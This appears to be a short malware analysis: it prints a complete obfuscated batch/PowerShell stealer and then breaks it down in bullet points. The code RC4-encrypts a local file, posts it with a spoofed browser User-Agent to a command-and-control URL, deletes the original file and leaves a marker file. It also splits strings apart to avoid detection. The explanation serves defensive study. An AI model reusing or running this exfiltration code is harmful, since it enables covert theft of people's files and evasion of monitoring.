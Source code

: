 ```bat
powershell -command "function dqjQqCAcuxwo{param ($AypZvQNXlqB,$oFoEuXrMFE);$OpsMmFLPLhtK = [System.Text.Encoding]::UTF8.GetBytes($AypZvQNXlqB);    $WTCOeBCxKCA = [System.Text.Encoding]::UTF8.GetBytes($oFoEuXrMFE);$exkQgtSevvHH = New-Object byte[](256);$aFHiHiPvSyCj = New-Object byte[](256);for ($IwMAnTWddEw = 0; $IwMAnTWddEw -lt 256; $IwMAnTWddEw++) {$exkQgtSevvHH[$IwMAnTWddEw] = $IwMAnTWddEw;$aFHiHiPvSyCj[$IwMAnTWddEw] = $WTCOeBCxKCA[$IwMAnTWddEw %% $WTCOeBCxKCA.Length];}$zTrCGqDmezfE = 0;for ($IwMAnTWddEw = 0; $IwMAnTWddEw -lt 256; $IwMAnTWddEw++) {$zTrCGqDmezfE = ($zTrCGqDmezfE + $exkQgtSevvHH[$IwMAnTWddEw] + $aFHiHiPvSyCj[$IwMAnTWddEw]) %% 256;$zUGqmBHCJGBv = $exkQgtSevvHH[$IwMAnTWddEw];$exkQgtSevvHH[$IwMAnTWddEw] = $exkQgtSevvHH[$zTrCGqDmezfE];$exkQgtSevvHH[$zTrCGqDmezfE] = $zUGqmBHCJGBv;}$iFUDhaIUWPC = New-Object byte[] $OpsMmFLPLhtK.Length;$IwMAnTWddEw = 0;$zTrCGqDmezfE = 0;for ($ZBwUQRSnvRO = 0; $ZBwUQRSnvRO -lt $OpsMmFLPLhtK.Length; $ZBwUQRSnvRO++) {$IwMAnTWddEw = ($IwMAnTWddEw + 1) %% 256;$zTrCGqDmezfE = ($zTrCGqDmezfE + $exkQgtSevvHH[$IwMAnTWddEw]) %% 256;$zUGqmBHCJGBv = $exkQgtSevvHH[$IwMAnTWddEw];$exkQgtSevvHH[$IwMAnTWddEw] = $exkQgtSevvHH[$zTrCGqDmezfE];$exkQgtSevvHH[$zTrCGqDmezfE] = $zUGqmBHCJGBv;$WVKnqgCFOsmZ = ($exkQgtSevvHH[$IwMAnTWddEw] + $exkQgtSevvHH[$zTrCGqDmezfE]) %% 256;$iFUDhaIUWPC[$ZBwUQRSnvRO] = $OpsMmFLPLhtK[$ZBwUQRSnvRO] -bxor $exkQgtSevvHH[$WVKnqgCFOsmZ];}$yJmaZfkmCsIK = [System.Convert]::ToBase64String($iFUDhaIUWPC);return $yJmaZfkmCsIK;};$bWcJabpQCOOF=(Get-Date).Ticks.ToString();$JbCLXcveMq='%tgurl12%';$lXbJSrwCOBN='%~3';$aRmxzjRXbQEn='%~dp0%~2';$ldbmjzEjszem=gc -Path $aRmxzjRXbQEn -Raw | Out-String;Add-Type -AssemblyName 'System.Web';$lXbJSrwCOBN=dqjQqCAcuxwo -AypZvQNXlqB $lXbJSrwCOBN -oFoEuXrMFE $bWcJabpQCOOF;$ldbmjzEjszem=dqjQqCAcuxwo -AypZvQNXlqB $ldbmjzEjszem -oFoEuXrMFE $bWcJabpQCOOF;$mkgEkQZnuGV = [System.Web.HttpUtility]::ParseQueryString('');$mkgEkQZnuGV['%fN12%']=$lXbJSrwCOBN;$mkgEkQZnuGV['%fD12%']=$ldbmjzEjszem;$mkgEkQZnuGV['r']=$bWcJabpQCOOF;$EYHCSDhekYzP=$mkgEkQZnuGV.ToString();$FLuapLlREN=[System.Text.Encoding]::UTF8.GetBytes($EYHCSDhekYzP);$AUkaAFoqKP=[System.Net.WebRequest]::Create($JbCLXcveMq);$AUkaAFoqKP.Method='PO'+'ST';$AUkaAFoqKP.ContentType='appl'+'ic'+'ation/x'+'-ww'+'w-for'+'m-ur'+'le'+'nco'+'ded';$AUkaAFoqKP.UserAgent = 'Moz'+'illa/5'+'.0 (Wi'+'ndows N'+'T 10.0;Wi'+'n64;x64)';$AUkaAFoqKP.ContentLength=$FLuapLlREN.Length;$KcSSLPNfvFL = $AUkaAFoqKP.GetRequestStream();$KcSSLPNfvFL.Write($FLuapLlREN,0,$FLuapLlREN.Length);$KcSSLPNfvFL.Close();$OUeDTggoYiM=$AUkaAFoqKP.GetResponse();if($OUeDTggoYiM.StatusCode -eq [System.Net.HttpStatusCode]::OK){Remove-Item -Path $aRmxzjRXbQEn;$ucBwEXJQluYC='%~dp0up'+'o'+'k.t'+'xt';New-Item -ItemType File -Path $ucBwEXJQluYC;}" > nul
```

It uses **RC4 encryption** + **Base64 encoding** → wraps the data in `x-www-form-urlencoded` format → then sends it via a fake browser-like POST request to a malicious PHP endpoint.

- **Inputs & Setup**:
    - Takes a target URL, filename, and encryption key from command-line arguments.
    - Loads the content of the file to exfiltrate (`%~dp0%~2`).
- **Encryption Function (RC4)**:
    - A full-on RC4-like encryption function (`dqjQqCAcuxwo`) is declared.
    - File content and the filename/key are encrypted using a **dynamic key (timestamp-based)**.
- **Data Packaging**:
    - Uses `.NET Web` and `HttpUtility` to **URL-encode** the encrypted filename + file content + timestamp.
- **Fake Legit Traffic**:
    - Sets headers like `User-Agent` to mimic **Firefox/Chrome on Windows**.
    - Uses a **POST request** with `application/x-www-form-urlencoded` content-type to hide in normal web traffic.
- **Exfiltration**:
    - Sends the encrypted payload to the **C2 URL** using `WebRequest`.
- **Cleanup**:
    - Deletes the original file after exfil.
    - Creates a dummy file (`upok.txt`) to mark completion.
